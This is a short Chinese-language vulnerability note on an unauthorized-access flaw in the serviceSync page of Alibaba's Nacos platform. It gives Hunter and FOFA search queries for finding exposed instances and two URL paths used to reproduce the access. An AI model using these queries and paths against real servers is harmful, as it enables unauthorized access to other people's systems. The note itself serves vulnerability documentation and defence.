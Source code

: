 # Nacos存在serviceSync未授权访问漏洞

# 一、漏洞简介
<font style="color:rgb(63, 63, 63);">Nacos 是阿里巴巴推出来的一个新开源项目，是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。致力于帮助发现、配置和管理微服务。Nacos 提供了一组简单易用的特性集，可以快速实现动态服务发现、服务配置、服务元数据及流量管理。Nacos存在serviceSync未授权访问漏洞</font>

# <font style="color:rgb(63, 63, 63);">二、影响版本</font>
+ <font style="color:rgb(63, 63, 63);">Nacos</font>

# <font style="color:rgb(63, 63, 63);">三、资产测绘</font>
+ hunter`app.name="Nacos"`
+ fofa`app="NACOS"`
+ 特征

![1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937.png](./img/Mx_5qpYTCzuDrSL-/1706098466504-aee1dd64-8194-4680-a095-f9ac7f516937-620456.png)

# 四、漏洞复现
```plain
/nacos/#/serviceSync
```

![1729426330695-15a37858-adda-4ca8-adb3-e7c967152baa.png](./img/Mx_5qpYTCzuDrSL-/1729426330695-15a37858-adda-4ca8-adb3-e7c967152baa-997048.png)

```plain
/v1/task/list?pageSize=10&pageNum=1
```

![1729426719698-3d63c9aa-96bf-421f-a764-e9f7374575f3.png](./img/Mx_5qpYTCzuDrSL-/1729426719698-3d63c9aa-96bf-421f-a764-e9f7374575f3-797790.png)



> 更新: 2024-10-28 15:59:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yx9zlsgguyq1p5v5>